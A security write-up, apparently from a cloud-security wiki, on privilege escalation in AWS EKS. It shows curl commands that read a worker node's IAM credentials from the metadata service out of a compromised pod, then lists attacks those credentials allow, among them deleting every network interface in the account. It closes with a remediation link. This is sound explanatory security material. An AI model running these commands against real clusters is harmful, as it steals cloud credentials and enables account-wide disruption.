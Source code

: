 ```yaml
---
author: Aloïs THÉVENOT
title: "Privilege Escalation in AWS Elastic Kubernetes Service (EKS)"
description: Compromising a pod in the cluster can have disastrous consequences on resources in the AWS account if access to the Instance Metadata service is not explicitly blocked.
contributors: christophetd
---
```


Original Research: [Privilege Escalation in AWS Elastic Kubernetes Service (EKS) by compromising the instance role of worker nodes](https://blog.christophetd.fr/privilege-escalation-in-aws-elastic-kubernetes-service-eks-by-compromising-the-instance-role-of-worker-nodes/) by [Christophe Tafani-Dereeper](https://twitter.com/christophetd)  

As a reminder, the [Instance Metadata service](/aws/general-knowledge/intro_metadata_service/) is an AWS API listening on a link-local IP address, 169.254.169.254. It is only accessible from EC2 instances and allows to retrieve various information about them.

It is particularly useful when you need your instances to access AWS resources. Instead of hard-coding credentials, you first assign an IAM role to your instance. From the instance, you can then retrieve temporary credentials for the role. This is 100 % transparent if you use the AWS CLI.

## Accessing the Instance Metadata service from a compromised pod

Querying the Instance Metadata service from a compromised pod:

```json
(pod)$ curl http://169.254.169.254/latest/meta-data/iam/info
{
  "Code" : "Success",
  "LastUpdated" : "2020-08-31T17:03:39Z",
  "InstanceProfileArn" : "arn:aws:iam::account-id:instance-profile/eksctl-christophe-cluster-nodegroup-ng-15050c0b-NodeInstanceProfile-1AS40JWHFGXJ2",
  "InstanceProfileId" : "AIPA..."
}
```

We see that we can access the Instance Metadata service and that we’re able to retrieve temporary credentials for the IAM role christophe-cluster-nodegroup-ng-15050c0b-NodeInstanceProfile-1AS40JWHFGXJ2. 

```json
(pod)$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-christophe-cluster-nodegro-NodeInstanceRole-1XY9GXQ417J7H
{
  "Code" : "Success",
  "LastUpdated" : "2020-08-31T17:03:25Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA..PP",
  "SecretAccessKey" : "Xm/..Z2",
  "Token" : "IQoJ..Vg==",
  "Expiration" : "2020-08-31T23:38:39Z"
}
```

This is the IAM role assigned to the EC2 instances acting as Kubernetes worker nodes.

## Amazon EKS node IAM role

This role is [documented](https://docs.aws.amazon.com/eks/latest/userguide/create-node-role.html) by AWS, and we can see it’s attached to the following AWS managed policies:

- [AmazonEKSWorkerNodePolicy](https://aws.permissions.cloud/managedpolicies/AmazonEKSWorkerNodePolicy)
- [AmazonEC2ContainerRegistryReadOnly](https://aws.permissions.cloud/managedpolicies/AmazonEC2ContainerRegistryReadOnly)
- Either the [AmazonEKS_CNI_Policy](https://aws.permissions.cloud/managedpolicies/AmazonEKS_CNI_Policy) managed policy or an IPv6 policy

### AmazonEKSWorkerNodePolicy

```json

{
    "Statement": [
        {
            "Action": [
                "ec2:DescribeInstances",
                "ec2:DescribeInstanceTypes",
                "ec2:DescribeRouteTables",
                "ec2:DescribeSecurityGroups",
                "ec2:DescribeSubnets",
                "ec2:DescribeVolumes",
                "ec2:DescribeVolumesModifications",
                "ec2:DescribeVpcs",
                "eks:DescribeCluster"
            ],
            "Effect": "Allow",
            "Resource": "*"
        }
    ],
    "Version": "2012-10-17"
}
```

### AmazonEC2ContainerRegistryReadOnly

```json
{
    "Statement": [
        {
            "Action": [
                "ecr:GetAuthorizationToken",
                "ecr:BatchCheckLayerAvailability",
                "ecr:GetDownloadUrlForLayer",
                "ecr:GetRepositoryPolicy",
                "ecr:DescribeRepositories",
                "ecr:ListImages",
                "ecr:DescribeImages",
                "ecr:BatchGetImage",
                "ecr:GetLifecyclePolicy",
                "ecr:GetLifecyclePolicyPreview",
                "ecr:ListTagsForResource",
                "ecr:DescribeImageScanFindings"
            ],
            "Effect": "Allow",
            "Resource": "*"
        }
    ],
    "Version": "2012-10-17"
}
```

### AmazonEKS_CNI_Policy

```json
{
    "Statement": [
        {
            "Action": [
                "ec2:AssignPrivateIpAddresses",
                "ec2:AttachNetworkInterface",
                "ec2:CreateNetworkInterface",
                "ec2:DeleteNetworkInterface",
                "ec2:DescribeInstances",
                "ec2:DescribeTags",
                "ec2:DescribeNetworkInterfaces",
                "ec2:DescribeInstanceTypes",
                "ec2:DetachNetworkInterface",
                "ec2:ModifyNetworkInterfaceAttribute",
                "ec2:UnassignPrivateIpAddresses"
            ],
            "Effect": "Allow",
            "Resource": "*"
        },
        {
            "Action": [
                "ec2:CreateTags"
            ],
            "Effect": "Allow",
            "Resource": [
                "arn:aws:ec2:*:*:network-interface/*"
            ]
        }
    ],
    "Version": "2012-10-17"
}
```

## Exploitation

Here are some examples of bad things we can do.

- Map the network, by **listing and describing VPCs, subnets**, and security groups*. Not only the VPC associated to the EKS cluster, but across the whole AWS account.
- **Describe any EC2 instance** in the AWS account. This includes information such as the AMI used, private IP, disks attached…
- **Nuke all network interfaces** of every EC2 instance with successive calls to `ec2:DescribeNetworkInterfaces`, `ec2:DetachNetworkInterface`, and `ec2:DeleteNetworkInterface`. This will bring offline all your instances and dependent AWS managed services. Your fancy EKS cluster? Gone. Your highly-available, auto-scalable web application spanning in 3 AZs? Offline. Great attack vector for a denial of service.
- **Enumerate and pull any Docker image** (“ECR repository“) in the account. As a bonus, you can even query the image vulnerability scan results by calling ecr:DescribeImageScanFindings. This will give you a nice list of the vulnerabilities [identified](https://docs.aws.amazon.com/AmazonECR/latest/userguide/image-scanning.html) by AWS in these images. This can be very helpful for further exploitation of pods inside the EKS cluster. Who needs Nessus anyway?

Again, all this is **AWS account-wide**, comes by default when spinning up an EKS cluster, and is accessible by only having compromised a single, underprivileged pod in the cluster.

## Remediation

AWS has documented ways to [restrict access to the instance profile assigned to the worker node](https://aws.github.io/aws-eks-best-practices/security/docs/iam/#restrict-access-to-the-instance-profile-assigned-to-the-worker-node).